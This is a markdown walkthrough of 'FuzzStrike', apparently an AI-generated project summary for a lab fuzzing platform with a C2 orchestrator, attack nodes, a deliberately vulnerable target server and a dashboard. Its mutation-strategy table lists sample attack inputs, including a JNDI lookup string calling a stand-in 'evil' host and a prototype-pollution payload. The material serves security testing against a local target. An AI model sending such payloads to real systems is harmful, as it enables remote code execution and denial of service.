

# FuzzStrike — Complete Implementation Walkthrough

## All Phases Complete ✅

The FuzzStrike distributed protocol fuzzing platform is fully implemented across **4 modules**, **30+ source files**, and **~4,500 lines of production-grade code**.

---

## Architecture



---

## File Inventory

### Module A — C2 Orchestrator (Python/FastAPI)

| File | Lines | Purpose |
|---|---|---|
| [config.py](file:///c:/Users/mahes/OneDrive/Desktop/jeevan/c2-orchestrator/app/config.py) | 70 | Pydantic-settings, env vars, singleton |
| [database.py](file:///c:/Users/mahes/OneDrive/Desktop/jeevan/c2-orchestrator/app/database.py) | 90 | SQLAlchemy engine, WAL mode, DI |
| [models.py](file:///c:/Users/mahes/OneDrive/Desktop/jeevan/c2-orchestrator/app/models.py) | 280 | 3 ORM tables + 10 Pydantic schemas |
| [mutator.py](file:///c:/Users/mahes/OneDrive/Desktop/jeevan/c2-orchestrator/app/mutator.py) | 350 | 10-strategy mutation engine |
| [main.py](file:///c:/Users/mahes/OneDrive/Desktop/jeevan/c2-orchestrator/app/main.py) | 100 | FastAPI app, lifecycle, CORS |
| [campaigns.py](file:///c:/Users/mahes/OneDrive/Desktop/jeevan/c2-orchestrator/app/routes/campaigns.py) | 280 | Campaign CRUD, batch dispatch, ACK |
| [payloads.py](file:///c:/Users/mahes/OneDrive/Desktop/jeevan/c2-orchestrator/app/routes/payloads.py) | 70 | Seed preview, strategy listing |
| [telemetry.py](file:///c:/Users/mahes/OneDrive/Desktop/jeevan/c2-orchestrator/app/routes/telemetry.py) | 140 | Crash ingestion, auto-severity |

### Module B — Attack Node (Java 17/Netty 4.1)

| File | Lines | Purpose |
|---|---|---|
| [AttackNodeApplication.java](file:///c:/Users/mahes/OneDrive/Desktop/jeevan/attack-node/src/main/java/com/fuzzstrike/attacknode/AttackNodeApplication.java) | 140 | Bootstrap, C2 wait, shutdown hooks |
| [NettyTcpClient.java](file:///c:/Users/mahes/OneDrive/Desktop/jeevan/attack-node/src/main/java/com/fuzzstrike/attacknode/client/NettyTcpClient.java) | 175 | Async TCP, EventLoopGroup, batch fire |
| [PayloadDispatcher.java](file:///c:/Users/mahes/OneDrive/Desktop/jeevan/attack-node/src/main/java/com/fuzzstrike/attacknode/client/PayloadDispatcher.java) | 170 | Poll → dispatch → ACK loop |
| [AttackChannelHandler.java](file:///c:/Users/mahes/OneDrive/Desktop/jeevan/attack-node/src/main/java/com/fuzzstrike/attacknode/handler/AttackChannelHandler.java) | 190 | Per-payload channel lifecycle |
| [ResponseCollector.java](file:///c:/Users/mahes/OneDrive/Desktop/jeevan/attack-node/src/main/java/com/fuzzstrike/attacknode/handler/ResponseCollector.java) | 150 | Thread-safe aggregation, CountDownLatch |
| [PayloadBatch.java](file:///c:/Users/mahes/OneDrive/Desktop/jeevan/attack-node/src/main/java/com/fuzzstrike/attacknode/model/PayloadBatch.java) | 90 | Batch DTO, defensive copying |
| [AttackResult.java](file:///c:/Users/mahes/OneDrive/Desktop/jeevan/attack-node/src/main/java/com/fuzzstrike/attacknode/model/AttackResult.java) | 140 | Immutable result, Builder pattern |
| [C2ApiClient.java](file:///c:/Users/mahes/OneDrive/Desktop/jeevan/attack-node/src/main/java/com/fuzzstrike/attacknode/service/C2ApiClient.java) | 200 | Java HttpClient REST client |

### Module C — Target Environment (Docker/Python)

| File | Lines | Purpose |
|---|---|---|
| [target_server.py](file:///c:/Users/mahes/OneDrive/Desktop/jeevan/target-env/target_server.py) | 220 | Vulnerable TCP server, OOM on >1MB |
| [agent.py](file:///c:/Users/mahes/OneDrive/Desktop/jeevan/target-env/agent.py) | 250 | Process monitor, crash detection, C2 reporting |

### Module D — Dashboard (HTML/CSS/JS)

| File | Lines | Purpose |
|---|---|---|
| [index.html](file:///c:/Users/mahes/OneDrive/Desktop/jeevan/dashboard/index.html) | 200 | Semantic HTML, metrics cards, form, chart, table |
| [style.css](file:///c:/Users/mahes/OneDrive/Desktop/jeevan/dashboard/css/style.css) | 560 | Glassmorphism design system, animations, responsive |
| [app.js](file:///c:/Users/mahes/OneDrive/Desktop/jeevan/dashboard/js/app.js) | 500 | API client, Canvas chart, triage, toasts, polling |

### Infrastructure

| File | Purpose |
|---|---|
| [docker-compose.yml](file:///c:/Users/mahes/OneDrive/Desktop/jeevan/docker-compose.yml) | 4-service orchestration with health checks |
| [pom.xml](file:///c:/Users/mahes/OneDrive/Desktop/jeevan/attack-node/pom.xml) | Maven build with Netty, Gson, Shade plugin |
| [requirements.txt (C2)](file:///c:/Users/mahes/OneDrive/Desktop/jeevan/c2-orchestrator/requirements.txt) | FastAPI, SQLAlchemy, httpx |
| [requirements.txt (Target)](file:///c:/Users/mahes/OneDrive/Desktop/jeevan/target-env/requirements.txt) | requests, psutil |
| [Dockerfile (C2)](file:///c:/Users/mahes/OneDrive/Desktop/jeevan/c2-orchestrator/Dockerfile) | Multi-stage Python 3.12, non-root |
| [Dockerfile (Attack)](file:///c:/Users/mahes/OneDrive/Desktop/jeevan/attack-node/Dockerfile) | Multi-stage Maven → JRE 17 Alpine |
| [Dockerfile (Target)](file:///c:/Users/mahes/OneDrive/Desktop/jeevan/target-env/Dockerfile) | Python 3.12 + supervisord |
| [nginx.conf](file:///c:/Users/mahes/OneDrive/Desktop/jeevan/dashboard/nginx.conf) | Static serving + API reverse proxy |
| [supervisord.conf](file:///c:/Users/mahes/OneDrive/Desktop/jeevan/target-env/supervisord.conf) | Target + agent process management |
| [logback.xml](file:///c:/Users/mahes/OneDrive/Desktop/jeevan/attack-node/src/main/resources/logback.xml) | Java structured logging |

---

## Dashboard Preview


---

## API Reference (13 Endpoints)

| Method | Endpoint | Purpose |
|---|---|---|
| `GET` | `/health` | Docker health probe |
| `POST` | `/api/v1/campaigns/` | Create campaign + generate mutations |
| `GET` | `/api/v1/campaigns/` | List campaigns (filter by status) |
| `GET` | `/api/v1/campaigns/{id}` | Campaign details |
| `POST` | `/api/v1/campaigns/{id}/start` | Start campaign (CREATED→RUNNING) |
| `POST` | `/api/v1/campaigns/{id}/stop` | Stop campaign (RUNNING→STOPPED) |
| `GET` | `/api/v1/campaigns/{id}/payloads` | Fetch pending payload batch |
| `POST` | `/api/v1/campaigns/{id}/payloads/ack` | ACK delivery + crash IDs |
| `GET` | `/api/v1/campaigns/metrics/dashboard` | Aggregated dashboard metrics |
| `POST` | `/api/v1/payloads/seed/preview` | Preview mutations (dry run) |
| `GET` | `/api/v1/payloads/strategies` | List mutation strategies |
| `POST` | `/api/v1/telemetry/crash` | Ingest crash report |
| `GET` | `/api/v1/telemetry/crashes` | List crash reports |

---

## Mutation Strategies

| # | Strategy | Targets | Example |
|---|---|---|---|
| 1 | `BIT_FLIP` | UTF-8 parsers | Flip random bits in "admin" → garbled bytes |
| 2 | `BOUNDARY_VALUE` | Integer handling | Replace `role: 1` → `role: 2147483647` |
| 3 | `STRING_OVERFLOW` | Buffer overflow | Replace "password" → "A" × 1,048,577 bytes |
| 4 | `TYPE_CONFUSION` | Type coercion | Replace `"admin"` → `True` or `[]` |
| 5 | `KEY_INJECTION` | Mass assignment | Inject `"__proto__": {"isAdmin": true}` |
| 6 | `NULL_INJECTION` | Null deref | Replace all values → `null` |
| 7 | `FORMAT_STRING` | Printf/template | Inject `${jndi:ldap://evil/a}` |
| 8 | `UNICODE_STRESS` | Encoding bugs | RTL overrides, zero-width chars, BOM |
| 9 | `DEEP_NESTING` | Stack overflow | 500-level deep `{"nested": {"nested": ...}}` |
| 10 | `ARRAY_BOMB` | Memory exhaust | Replace value → `[0] × 100,000` |

---

## Deployment

### Full Stack (Docker Compose)

```bash
cd c:\Users\mahes\OneDrive\Desktop\jeevan
docker-compose up --build
```

| Service | URL | Purpose |
|---|---|---|
| Dashboard | http://localhost:8080 | Glassmorphism monitoring UI |
| C2 API | http://localhost:9000/docs | Swagger UI for API testing |
| Target | localhost:7777 | Vulnerable TCP server |

### Quick Test (No Docker)

```bash
# Terminal 1: Start C2 Orchestrator
cd c2-orchestrator
pip install -r requirements.txt
python -m uvicorn app.main:app --host 0.0.0.0 --port 9000 --reload

# Terminal 2: Start Target Server
cd target-env
pip install -r requirements.txt
python target_server.py

# Terminal 3: Build & Run Attack Node
cd attack-node
mvn clean package -DskipTests
java -jar target/attack-node-1.0.0-SNAPSHOT.jar

# Terminal 4: Serve Dashboard
cd dashboard
python -m http.server 8080
```

---

## Key Design Decisions

| Decision | Rationale |
|---|---|
| **SQLite + WAL mode** | Sufficient for MVP write throughput; WAL allows concurrent reads from dashboard polls |
| **Netty per-payload connections** | Tests target connection handling (not just data handling); matches real-world fuzzing |
| **ConcurrentLinkedQueue** in ResponseCollector | Lock-free, non-blocking under high concurrency from Netty EventLoop threads |
| **supervisord** in target container | Co-manages target + agent; agent survives target crash to report telemetry |
| **Nginx reverse proxy** for dashboard | Eliminates CORS entirely; same-origin requests from browser perspective |
| **Builder pattern** for AttackResult | Immutable result objects with many optional fields; clean construction |
| **Strategy registry** in mutator | Extensible — add new strategies by decorating a function, no other changes needed |
| **Auto-severity classification** | Crash reports auto-classified by error type pattern matching (OOM=critical, etc.) |
